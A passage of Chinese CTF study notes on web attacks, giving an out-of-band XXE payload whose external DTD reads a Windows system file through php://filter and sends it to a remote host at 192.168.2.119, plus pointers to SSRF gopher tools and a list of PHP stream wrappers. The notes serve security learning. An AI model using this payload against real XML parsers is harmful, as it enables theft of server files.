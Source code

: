 第二种

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.2.119/evil.dtd">
%remote;%int;%send;
]>
<root><name>admin2</name><password>admin;</password></root>
```

evil.dtd 的内容，注意`&#37`不是乱码，就是这样写。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.2.119?p=%file;'>">
```

## SSRF

使用`sniffer`软件可以监听网卡某一个端口，工具地址
https://github.com/firebroo/sec_tools/tree/master/common-gopher-tcp-stream

使用工具 https://github.com/tarunkant/Gopherus 可以自动生成多种类型的`Gopher`



## 伪协议

file://、php://filter、php://input、zip://、compress.bzip2://、compress.zlib://、data://

### file://协议

```
PHP.ini：
file:// 协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

![](images/ctf-2021-06-18-18-14-32.png)
